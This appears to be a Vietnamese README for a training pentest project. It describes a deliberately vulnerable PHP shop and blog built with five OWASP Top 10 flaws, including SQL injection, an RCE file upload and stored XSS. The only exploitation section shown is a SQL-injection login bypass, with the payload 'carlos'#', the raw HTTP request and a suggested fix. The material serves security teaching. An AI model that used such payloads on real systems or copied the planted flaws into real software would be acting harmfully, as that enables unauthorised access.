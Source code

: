 # Pentest Website - OWASP Top 10  

## 1. Giới thiệu  

### Mô tả  
Đây là project về Pentest cơ bản, tập trung vào việc xây dựng một website có chứa lỗ hổng bảo mật và tiến hành khai thác, sau đó đưa ra giải pháp khắc phục.  

### Mục tiêu  
- Xây dựng website có chứa 5 lỗ hổng thuộc **OWASP Top 10 (2021)**.  
- Khai thác và kiểm thử các lỗ hổng.  
- Đề xuất giải pháp khắc phục.  
- Triển khai website trên một máy chủ thực tế (Linux, Ubuntu, Windows).  

### Cách tiếp cận  
Phương pháp kiểm thử bảo mật được sử dụng trong project này là **Whitebox Pentesting**, nghĩa là:  
- Có quyền truy cập mã nguồn và hệ thống.  
- Kiểm thử từ góc nhìn của developer.  
- Chủ động tạo và khai thác lỗ hổng trong mã nguồn.  

---

## 2. Các chức năng chính  
Website được xây dựng theo mô hình **MVC (Model-View-Controller)** và có các chức năng chính như:  
- ✅ Đăng nhập  
- ✅ Định danh, xác thực người dùng  
- ✅ Phân quyền người dùng  
- ✅ Quản lý bài viết, bình luận, hệ thống giỏ hàng và tiền tệ  
- ✅ Hỗ trợ upload file  
- ✅ Triển khai trên máy chủ  

# Giao diện Website

### 🔹 Giao diện chính

| Login | Register | Shop |
|---|---|---|
| ![Login](screenshots/login.png) | ![Register](screenshots/register.png) | ![Shop](screenshots/shop.png) |

| Cart | Checkout | Profile |
|---|---|---|
| ![Cart](screenshots/cart.png) | ![Checkout](screenshots/checkout.png) | ![Profile](screenshots/profile.png) |

---

<details>
  <summary>📸 Xem thêm ảnh giao diện phụ</summary>

  | Comment |  Blog |
  |---|---|
  | ![Comment](screenshots/comment.png) | ![Blog](screenshots/blog.png) |

</details>

---

## 3. Thống kê lỗ hổng OWASP Top 10 (2021)

| STT | Lỗ hổng | Mô tả | Vị trí | Mức độ |
|---|---|---|---|---|
| **1** | **A03:2021 - Injection (SQLi)** | SQL Injection trong truy vấn đăng nhập. | `/login.php` | 🔴 Cao |
| **2** | **A01:2021 - Broken Access Control** | Xóa user không xác thực quyền admin. | `/profile/updateEmail` | 🔴 Cao |
| **3** | **A08:2021 - Software and Data Integrity Failures (RCE)** | Upload file `.php` gây RCE. | `/profile/uploadAvatar` | 🔴 Cao |
| **4** | **A03:2021 - Injection (Stored XSS)** | Stored XSS trong bình luận blog do không lọc input. | `/blog_detail.php` | 🟠 Trung bình |
| **5** | **A05:2021 - Security Misconfiguration** | Truy cập file backup `git_old`, lộ thông tin. | `/backup/git_old` | 🟠 Trung bình |


---

## 4. Khai thác lỗ hổng  
<details>
  <summary>🛑 <strong>A03:2021 - Injection (SQLi) - Bypass Đăng Nhập</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép bypass xác thực password, truy cập tài khoản nếu biết username hợp lệ.  
- **Hệ lụy**:  
  - Tấn công viên có thể đăng nhập vào tài khoản bất kỳ mà không cần mật khẩu đúng.  
  - Có thể leo thang đặc quyền nếu truy cập vào tài khoản admin.  
  - Tiềm năng khai thác sâu hơn nếu kết hợp với các kỹ thuật SQLi khác (ví dụ: UNION).  

---

### 📌 Phát Hiện Chung
- Truy vấn SQL tại **`/login.php`** không lọc đầu vào của biến `$username`.  
- Cho phép thực hiện **SQL Injection** bằng cách chèn ký tự `#` để comment bỏ điều kiện password.  
- Payload `carlos'#` (với `carlos` là username thật) bỏ qua kiểm tra password, cho phép login mà không cần mật khẩu đúng.  
- Payload `' OR 1=1 --` ` -- ` không hoạt động do xử lý lỗi trong `Database.php`.  

---

### 🛠 PoC - Bằng Chứng Khai Thác
#### 📌 1. Payload Tấn Công:
--------------------------------
```
Username: carlos'#
Password: (bất kỳ)
```
#### 🖥 2. Request Gửi Đến Server:
--------------------------------
```
POST /web_pen_v1/login/process HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=carlos'#&password=randompassword
```
#### 🛠 3. Truy Vấn SQL Bị Thao Túng:
--------------------------------
```
SELECT * FROM users WHERE username = 'carlos'#' AND password = 'randompassword';
```

#### ✅ 4. Response Thành Công:
--------------------------------
HTTP/1.1 302 Found
Location: /home.php

#### 🚨 5. Ảnh Chụp Màn Hình:
--------------------------------
| PoC SQL Injection | Burp Suite PoC |
|---|---|
| ![SQL Injection PoC](screenshots/sqlt1.png) | ![Burp Suite PoC](screenshots/sqlit2.png) |

###  🔧 Biện Pháp Khắc Phục Được Đề Xuất
Sử dụng Prepared Statement (PDO / MySQLi) để bind tham số:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```
- Không sử dụng truy vấn SQL với chuỗi nối trực tiếp từ input người dùng.
- Bật chế độ báo lỗi và log lỗi thay vì hiển thị lỗi SQL ra ngoài.
- Bổ sung hash password bằng password_hash() trong Register.php và verify bằng password_verify() trong Login.php.
</details> 


